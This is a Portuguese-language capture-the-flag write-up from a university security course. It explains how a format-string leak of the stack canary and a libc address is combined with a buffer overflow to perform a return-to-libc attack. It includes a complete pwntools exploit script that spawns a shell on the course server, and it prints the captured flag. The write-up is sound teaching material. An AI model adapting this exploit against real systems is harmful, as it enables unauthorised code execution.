 Primeiro, utilizamos ```checksec``` no ```program```:

<img width="355" alt="Screenshot 2023-06-04 at 18 31 37" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/308938bf-4306-440d-a5d4-aebf50f638a0">

Verificamos que todas as proteções estão ativas.

Como foi indicado neste desafio "Não te esqueças, não há nada totalmente seguro." Então, começamos por ultrapassar o máximo de caracteres permitidos, neste caso o máximo era 20.

<img width="899" alt="Screenshot 2023-06-04 at 18 37 11" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/e1992e5f-254b-4ca3-a424-e1c28c27d6cc">

Com isto verificamos que ```stack smashing detected```, indicando então que o ```program``` não verifica o número máximo de caracteres, esperando que o canary faça essa confirmação.

Após fazermos debugging ao ```program```, descobrimos algo que não é nada normal. A função ```fgets``` está a ler 100 caracteres, em vez dos supostos 20 caracteres. Então suspeitamos que existe alguma vulnerabildade em strings.

Confirmando a nossa suposição:

<img width="507" alt="Screenshot 2023-06-04 at 18 38 09" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/287af3d6-ad3c-424e-9edc-45d5f2242a19">

Como conseguimos imprimir a informação da stack, confirmamos que as nossas suspeitas estavam corretas.

Acabamos por descobrir depois de alguma pesquisa que este ataque é chamado de ```Return-to-libc``` (https://en.wikipedia.org/wiki/Return-to-libc_attack). Então criamos um script para esse ataque:

```python
from pwn import *

LOCAL = False

# Offset de referência da biblioteca
reference_lib_offset = 0xf7daa519 - 0xf7d89000
# Offset da função system na biblioteca
system_lib_offset = 0x48150
# Offset da string "/bin/sh" na biblioteca
sh_lib_offset = 0x1bd0f5

def send_message(p, message):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline(message)
    answer = p.recvline()
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")
    return answer

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4002)

# Envia a primeira mensagem para obter o valor do canário e um valor de referência
first_message = send_message(p, b"%8$x-%11$x")

canary, reference_val = [int(val, 16) for val in first_message.split(b'-')]

# Calcula a base da biblioteca
lib_base = reference_val - reference_lib_offset
# Calcula os endereços da função system e da string "/bin/sh"
address_system = lib_base + system_lib_offset
address_sh = lib_base + sh_lib_offset

# Monta a segunda mensagem com os valores calculados
second_message = flat(b"A"*20, canary + 1, b"A"*8, address_system, b"A"*4, address_sh)

send_message(p, second_message)

send_message(p, b"A"*19)

p.interactive()
```

Após executarmos ```python3 script.py```, finalmente obtemos a flag: **flag{446742e444cf864d5d85fa643112492a}**

<img width="606" alt="Screenshot 2023-06-04 at 18 38 52" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/073ee602-1c6b-460b-9b86-3baf00c67159">
